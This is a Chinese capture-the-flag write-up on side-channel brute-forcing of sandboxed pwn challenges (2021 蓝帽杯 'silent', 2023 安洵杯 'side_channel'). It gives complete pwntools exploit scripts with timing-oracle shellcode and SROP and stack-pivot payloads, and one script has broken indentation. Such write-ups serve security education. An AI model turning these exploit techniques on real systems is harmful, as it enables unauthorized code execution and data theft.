侧信道爆破

- - -

# 侧信道爆破

## 侧信道攻击原理

侧信道攻击是一种非正常的攻击手段，是一种利用计算机不经意间发出的声音来判断计算机的执行情况，比如通过散热器的响声大小来判断计算机所运行程序的复杂性；通过窃听敲击键盘的声音来及进行破译你所输入的是什么；或者说是通过计算机组件再执行某些程序的时候需要消耗不同的电量，来监视你的计算机。

## 侧信道爆破原理

pwn题目开启沙箱后，我们通常可以采用open、read、write函数输出flag，但是如果沙箱禁用了write函数，使我们只能利用open和read函数，这时候就要利用侧信道爆破了。侧信道攻击在pwn中的主要思想就是通过逐位爆破获得flag，一般是判断猜测的字符和flag的每一位进行对比，如果相同就进入死循环，然后利用时间判断是否正确，循环超过一秒则表示当前爆破位爆破字符正确。通常侧信道攻击一般都是通过shellcode来实现的，并且比较的方法最好是使用‘二分法’这样的话节约时间并且效率高。

## 2021 蓝帽杯初赛 slient

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191648-1837ee12-a317-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191652-1ad9ec06-a317-1.png)  
可以看出这里开的沙箱只运行open和read，没有write，这里就很可能是用侧信道爆破了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191659-1eca9a86-a317-1.png)  
这里就是用mmap去申请0x1000的空间，然后设置了沙箱，read只允许读入0x40大小的数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191713-273453ba-a317-1.png)  
本地运行一下发现基本上就是直接执行输入的东西  
然后我们分析一下现在流传的爆破脚本

```plain
def exp(dis,char):
    p.recvuntil("Welcome to silent execution-box.\n")
    shellcode = asm('''
        mov r12,0x67616c66
        push r12
        mov rdi,rsp
        xor esi,esi
        xor edx,edx
        mov al,2
        syscall
        mov rdi,rax
        mov rsi,0x10700
        mov dl,0x40
        xor rax,rax
        syscall
        mov dl, byte ptr [rsi+{}]
        mov cl, {}
        cmp cl,dl
        jz loop
        mov al,60
        syscall
        loop:
        jmp loop
        '''.format(dis,char))
    p.send(shellcode)
```

al:rax 寄存器的低 8 位  
cl:rcx 寄存器的低 8 位  
dl:rdx 寄存器的低 8 位

```plain
mov r12, 0x67616c66    ; 将字符串 "flag" 的 ASCII 值加载到寄存器 r12 中
push r12               ; 将 r12 的值推送到栈上
mov rdi, rsp           ; 将栈上的地址赋给寄存器 rdi
xor esi, esi           ; 将 esi 寄存器清零
xor edx, edx           ; 将 edx 寄存器清零
mov al, 2              ; 将系统调用号 2（open）加载到寄存器 al 中
syscall                ; 执行系统调用 open，打开文件名为 flag 的文件

mov rdi, rax           ; 将 open 返回的文件描述符赋给 rdi
mov rsi, 0x10700       ; 将缓冲区地址加载到 rsi（缓冲区是用于存放 flag 内容）
mov dl, 0x40           ; 将读取的字节数加载到 dl（64 字节）
xor rax, rax           ; 将 rax 寄存器清零
syscall                ; 执行系统调用 read，读取 flag 内容到缓冲区

mov dl, byte ptr [rsi+{}]  ; 将缓冲区中的某个字节加载到寄存器 dl
mov cl, {}             ; 将输入参数 char 加载到寄存器 cl
cmp cl, dl             ; 比较寄存器 cl 和 dl 的值
jz loop                ; 如果相等，跳转到 loop 标签
mov al, 60             ; 将系统调用号 60（exit）加载到寄存器 al 
syscall                ; 执行系统调用 exit

loop:
jmp loop               ; 无限循环

这个代码片段中的 {} 部分是通过 format(dis,char) 动态插入的
```

可以看出来这个shellcode写的寄存器赋值都是用的低8位，然后寄存器清零也是用的xor，已经把长度尽可能的缩小了  
然后我们打印一下长度可以看到只有0x33，所以完全符合要求

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191750-3db0f8be-a317-1.png)  
然后就是循环了

```plain
flag = "" #初始化一个空的字符串来存储 flag。
for i in range(len(flag),36): #从当前 flag 长度到长度 35 的范围内找到 flag 的字符
    sleep(1)
    log.success("flag : {}".format(flag)) #打印当前已知的 flag 内容。
    for j in range(0x20,0x80): #在 ASCII 可打印字符范围内进行循环。
        p = process('./pwn')
        try:
            exp(i,j)
            p.recvline(timeout=1) #在 1 秒内没有收到数据，将抛出一个超时异常。
            flag += chr(j)
            s('\n')
            log.success("{} pos : {} success".format(i,chr(j)))
            p.close()
            break #跳出当前的 for 循环，继续下一个长度的 flag 的爆破。
        except:           
            p.close()
```

然后就是在本地测试一下脚本是否正常了  
我在本地flag文件夹里写了个flag：flag\_is\_not\_here，然后开始爆破

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191813-4b5967f8-a317-1.png)  
可以看到爆出来了，但是写的长度太长了，会继续往下爆破

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
#context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

def exp(dis,char):
    p.recvuntil("Welcome to silent execution-box.\n")
    shellcode = asm('''
        mov r12,0x67616c66
        push r12
        mov rdi,rsp
        xor esi,esi
        xor edx,edx
        mov al,2
        syscall
        mov rdi,rax
        mov rsi,0x10700
        mov dl,0x40
        xor rax,rax
        syscall
        mov dl, byte ptr [rsi+{}]
        mov cl, {}
        cmp cl,dl
        jz loop
        mov al,60
        syscall
        loop:
        jmp loop
        '''.format(dis,char))
    p.send(shellcode)

flag = ""

for i in range(len(flag),35):
    sleep(1)
    log.success("flag : {}".format(flag))
    for j in range(0x20,0x80):
        p = process('./pwn')
        try:
            exp(i,j)
            p.recvline(timeout=1)
            flag += chr(j)
            p.send('\n')
            log.success("{} pos : {} success".format(i,chr(j)))
            p.close()
            break
        except:           
            p.close()
```

## 2023 安洵杯 side\_channel ,initiate!

### 思路

这个题目同样也是侧信道爆破，不过里面涉及srop和栈迁移的知识  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191845-5e652152-a317-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191850-61137782-a317-1.png)  
禁用了write，能用open和read和mprotect

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191900-6751106e-a317-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191904-69cf6aca-a317-1.png)  
然后这里我们可以看出，沙箱是在系统调用完write后开的，然后我们查看v1后会发现有0x10字节的栈溢出  
所以这里我们的思路就是先去写一段mprotect和shellcode，然后栈迁移过去执行mprotect，然后直接执行shellcode

```plain
syscall2=0x40118A #syscall
syscall=0x401060  #syscall_plt
rax_15 = 0x401193
main = 0x401421

pl='aaaaaaaa'
sa('easyhack\n',pl)
sa('SUID?\n',b'\x00'*(0x2a)+p64(0x404080)+p64(0x401421))
s(b'\x00'*(0x2a)+p64(0x404080+0x2a)+p64(0x401421))

duan()
s(p64(0x404080+0x2a+0x10))  

itr()
```

首先我们先去测试一下迁移过去会执行到哪

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191926-766ce00a-a317-1.png)  
pause的时候是这个状态，然后输入p64(0x404060+0x2a+0x10)后往下调试一下是这个状态

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191934-7b93f974-a317-1.png)  
之后就是去执行了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191942-805797ea-a317-1.png)  
回去沿着0x4040b2这个位置去执行，所以我们构造pl就写在这个地方就可以，所以从0x404060开始写，先写0x52个'\\x00',然后就去执行后面的rop链了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225191950-84a65fac-a317-1.png)  
这里rsp设置成了储存shellcode的地址，也就是0x40419a，方便我们后面去执行

```plain
frame = SigreturnFrame()
frame.rdi = 10
frame.rsi = 0x404000
frame.rdx = 0x1000
frame.rcx = 7
frame.rip = syscall
frame.rsp = 0x4041ba
pl = b'\x00'*0x52+p64(rax_15)+p64(syscall2)+bytes(frame)+p64(0x404260)
pl = pl.ljust(0x200,b'\x00')
pl+=shellcode
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225192006-8e9f21d8-a317-1.png)  
可以看到这里ret就是去执行shellcode了，下面只需要把shellcode换成侧信道爆破的shellcode就行

```plain
shellcode = asm('''
            mov r12,0x67616c66
            push r12
            mov rdi,rsp
            xor esi,esi
            xor edx,edx
            mov al,2
            syscall
            mov rdi,rax
            mov rsi,0x404500
            mov dl,0x40
            xor rax,rax
            syscall
            mov dl, byte ptr [rsi+{}]
            mov cl, {}
            cmp cl,dl
            jz loop
            mov al,60
            syscall
            loop:
            jmp loop
            '''.format(dis,char))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225192021-9729a418-a317-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *


#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

#context.log_level='debug'
context(os='linux', arch='amd64')

elf = ELF('./pwn')
syscall2=0x40118A
syscall=0x401060
rax_15 = 0x401193
main = 0x401421

def exp(dis,char):
    shellcode = asm('''
            mov r12,0x67616c66
            push r12
            mov rdi,rsp
            xor esi,esi
            xor edx,edx
            mov al,2
            syscall
            mov rdi,rax
            mov rsi,0x404500
            mov dl,0x40
            xor rax,rax
            syscall
            mov dl, byte ptr [rsi+{}]
            mov cl, {}
            cmp cl,dl
            jz loop
            mov al,60
            syscall
            loop:
            jmp loop
            '''.format(dis,char))
    frame = SigreturnFrame()
    frame.rdi = 10
    frame.rsi = 0x404000
    frame.rdx = 0x1000
    frame.rcx = 7
    frame.rip = syscall
    frame.rsp = 0x4041ba
    pl = b'\x00'*0x52+p64(rax_15)+p64(syscall2)+bytes(frame)+p64(0x404260)
    pl = pl.ljust(0x200,b'\x00')
    pl+=shellcode
    sa('easyhack\n',pl)
    sa('SUID?\n',b'\x00'*(0x2a)+p64(0x404080)+p64(0x401421))
    s(b'\x00'*(0x2a)+p64(0x404080+0x2a)+p64(0x401421))
    s(p64(0x404060+0x2a+0x10))   

flag = ""

for i in range(len(flag),36):
    sleep(1)
    log.success("flag : {}".format(flag))
    for j in range(0x20,0x80):
        p = process('./pwn')
        #p=remote('47.108.206.43',45461)
        try:
        exp(i,j)
        p.recvline(timeout=1)
        flag += chr(j)
        s('\n')
        log.success("{} pos : {} success".format(i,chr(j)))
        p.close()
        break
        except:           
        p.close()
```

silent.zip (0.003 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231225192244-ecf08c90-a317-1.zip)

side\_channel.zip (0.925 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231225192247-eeb56cbc-a317-1.zip)
